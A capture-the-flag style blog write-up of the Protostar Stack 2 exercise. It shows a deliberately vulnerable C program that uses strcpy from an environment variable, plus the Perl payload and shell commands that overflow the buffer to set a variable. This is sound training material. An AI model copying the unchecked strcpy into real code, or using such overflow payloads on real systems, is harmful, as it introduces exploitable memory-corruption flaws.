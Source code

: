 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 2"
date: 2011-12-14T05:08:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


This challenge is pretty much the same as the previous challenge, except that the buffer comes from an environmental variable.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];
 char *variable;

 variable = getenv("GREENIE");

 if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }

 modified = 0;

 strcpy(buffer, variable);

 if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }

}
```

This problem can simply be solved by running these commands:

```
user@protostar:/opt/protostar/bin$ GREENIE=`perl -e 'print "A"x64 . "\x0a\x0d\x0a\x0d"'`
user@protostar:/opt/protostar/bin$ export GREENIE
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

This will put the 64 "A"s and 0x0d0a0d0a (in little endian) into an environmental variable.  Then when the vulnerable C app reads it, overflows the buffer into the "modified" variable, just like the others.
